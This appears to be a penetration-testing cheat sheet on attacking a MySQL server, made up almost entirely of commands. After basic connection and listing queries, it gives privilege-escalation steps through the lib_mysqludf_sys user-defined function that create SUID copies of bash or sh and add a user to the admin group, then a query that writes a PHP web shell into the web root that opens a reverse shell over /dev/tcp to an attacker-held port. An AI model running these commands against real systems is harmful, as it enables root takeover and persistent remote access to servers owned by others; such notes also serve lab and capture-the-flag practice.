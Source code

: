 
Connect to MYSQL server:
---
#mysql #connect

```shell
mysql -h $TARGET_IP -u $USER -p
```
Show list of databases:
```sql
show databases;
```
Show list of tables in current DB:
```sql
show tables;
```
Priv esc if running as root:
#mysql #privesc #priv-esc

```mysql
use mysql;
show tables;
select * from func;
CREATE FUNCTION sys_eval RETURNS INT SONAME 'lib_mysqludf_sys.so';
SELECT sys_eval("cp /bin/bash /var/tmp/bash ; chmod u+s /var/tmp/bash");
```

OR

```mysql
select sys_exec('cp /bin/sh /tmp; chown root:root /tmp/sh; chmod +s /tmp/sh');
select sys_exec('usermod -a -G admin USER');
```

```shell
cd /var/tmp
./bash -p
```

```mysql
select "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/$ATTACKER/4444 0>&1'\");?>" into outfile "/var/www/.../shell.php";
```
---